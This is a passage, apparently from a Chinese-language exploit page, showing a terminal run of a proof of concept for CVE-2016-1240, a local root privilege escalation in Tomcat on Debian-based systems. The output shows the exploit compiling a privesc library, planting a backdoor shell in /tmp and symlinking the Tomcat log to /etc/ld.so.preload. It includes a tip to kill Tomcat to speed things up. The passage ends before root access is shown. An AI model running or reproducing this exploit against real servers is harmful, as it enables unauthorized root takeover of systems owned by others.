 #### poc运行示例：

```
tomcat7@ubuntu:/tmp$ id
uid=110(tomcat7) gid=118(tomcat7) groups=118(tomcat7)

tomcat7@ubuntu:/tmp$ lsb_release -a

No LSB modules are available.

Distributor ID:	Ubuntu

Description:	Ubuntu 16.04 LTS

Release:	16.04

Codename:	xenial

tomcat7@ubuntu:/tmp$ dpkg -l | grep tomcat

ii  libtomcat7-java              7.0.68-1ubuntu0.1               all          Servlet and JSP engine – core libraries

ii  tomcat7                      7.0.68-1ubuntu0.1               all          Servlet and JSP engine

ii  tomcat7-common               7.0.68-1ubuntu0.1               all          Servlet and JSP engine – common files

tomcat7@ubuntu:/tmp$ ./tomcat-rootprivesc-deb.sh /var/log/tomcat7/catalina.out

Tomcat 6/7/8 on Debian-based distros - Local Root Privilege Escalation Exploit

CVE-2016-1240

Discovered and coded by:

Dawid Golunski

[http://legalhackers.com](http://legalhackers.com)

[+] Starting the exploit in [active] mode with the following privileges:

uid=110(tomcat7) gid=118(tomcat7) groups=118(tomcat7)

[+] Target Tomcat log file set to /var/log/tomcat7/catalina.out

[+] Compiling the privesc shared library (/tmp/privesclib.c)

[+] Backdoor/low-priv shell installed at:

-rwxr-xr-x 1 tomcat7 tomcat7 1037464 Sep 30 22:27 /tmp/tomcatrootsh

[+] Symlink created at:

lrwxrwxrwx 1 tomcat7 tomcat7 18 Sep 30 22:27 /var/log/tomcat7/catalina.out -> /etc/ld.so.preload

[+] Waiting for Tomcat to re-open the logs/Tomcat service restart…

You could speed things up by executing : kill [Tomcat-pid] (as tomcat user) if needed ![:wink:](../img/72b158ac013b9bc9875813ca4ffe6fc1.png ":wink:")

[+] Tomcat restarted. The /etc/ld.so.preload file got created with tomcat privileges:

```